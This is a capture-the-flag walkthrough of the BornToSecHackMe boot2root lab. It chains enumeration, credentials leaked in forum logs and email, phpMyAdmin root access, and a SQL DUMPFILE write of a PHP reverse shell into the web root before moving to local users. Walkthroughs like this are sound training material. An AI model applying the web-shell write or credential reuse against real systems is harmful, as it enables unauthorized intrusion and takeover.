 # Boot2Root Walkthrough

## 1. Network Setup and Discovery

The analyst configured the virtual machine with a **host-only adapter** to perform internal reconnaissance. An `nmap` scan revealed the presence of a target machine running **HTTP (port 80)** and **HTTPS (port 443)** services.

* **HTTPS**: Returned an empty or default response.
* **HTTP**: Served a default placeholder page.

## 2. Directory Enumeration

Using a common wordlist, a directory fuzzing scan was performed against the HTTP service. The scan revealed the following accessible endpoints:

* `/forum`
* `/phpmyadmin`
* `/webmail`

Both `phpMyAdmin` and `webmail` were login-protected. The analyst therefore focused on exploring the forum.

## 3. Forum Analysis and Credential Discovery

Within the forum, a post by a user contained log snippets from 2015:

```
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: session opened for user lmezard
```

The log suggested a failed brute-force attempt using the password `!q\]Ej?*5K5cy*AJ`, followed by a successful CRON job initiated under the `lmezard` user.

The analyst attempted to log in to the forum using the `lmezard` username and the extracted password. Authentication succeeded.

Upon logging in, user settings revealed the email address: `laurie@borntosec.net`.

## 4. Webmail Access and Credential Escalation

An attempt was made to log in to the **webmail** interface using the discovered email and the same password. This login was successful.

An email was found containing database credentials:

**Subject:** DB Access
**From:** [qudevide@mail.borntosec.net](mailto:qudevide@mail.borntosec.net)
**To:** [laurie@borntosec.net](mailto:laurie@borntosec.net)

```
Hey Laurie,

You can’t connect to the databases now. Use:
root/Fg-'kKXBj87E:aJ$

Best regards.
```

## 5. phpMyAdmin Exploitation

Using the credentials `root / Fg-'kKXBj87E:aJ$`, the analyst accessed **phpMyAdmin**.

Within the interface, multiple databases were available. Importantly, the analyst had the ability to **write files to the web root**, enabling remote code execution.

## 6. Web Shell Deployment

A PHP reverse shell was obtained from [revshells.com](https://www.revshells.com/) and converted into hexadecimal format. The payload was then written to the web server’s accessible template directory using SQL:

```sql
SET @bin = 0x[hex of php shell];
SELECT @bin INTO DUMPFILE '/var/www/forum/templates_c/cmd.php';
```

This granted remote code execution capabilities via the web interface. From here, the analyst could either issue individual commands or deploy a reverse shell for further interaction.

## 7. Privilege Escalation and Enumeration

While enumerating the system, the analyst discovered the directory:

```
/home/LOOKATME
```

Inside was a credential file containing:

```
lmezard:G!@M6f4Eatau{sF"
```

These credentials permitted local login as user **lmezard**, although SSH access was not available. Only local shell access was viable from the compromised web shell.

## 8. Binary and File Analysis

Within `lmezard`’s home directory, a file named `fun` was found. This file was transferred to a writable location, downloaded, and analyzed. It was a **tar archive** containing a series of `.pcap` files.

Each `.pcap` contained fragments of **C source code**, embedded within the payloads. A custom Python script was written to reconstruct the complete C file:

```python
import os

def get_key(string):
    tmp = string[len("//file"):]
    digits = ''
    for c in tmp:
        if not c.isdigit():
            break
        digits += c
    return int(digits) if digits else -1

def main():
    path = os.getcwd()
    files = [f for f in os.listdir(path) if os.path.isfile(os.path.join(path, f))]
    map_of_files = {}

    for file in files:
        with open(file, 'r') as f:
            lines = f.readlines()
            if not lines:
                continue
            last_line = lines[-1].strip()
            key = get_key(last_line)
            map_of_files[key] = ''.join(lines) + '\n'

    buffer = ''
    for i in sorted(map_of_files):
        buffer += map_of_files[i]

    print(buffer)

if __name__ == "__main__":
    main()
```

The reconstructed source code was saved as `first.c`, compiled, and executed:

```bash
python3 ./flag02.py > first.c
gcc first.c -o test
./test
```

The output contained the following string:

```
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit%
```

The password was then hashed as required:

```bash
echo -n Iheartpwnage | sha256sum
# 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

## 9. Laurie Access

The hashed password, and its plaintext version, were tested against users found in `/home`. It successfully authenticated as **Laurie** via SSH.
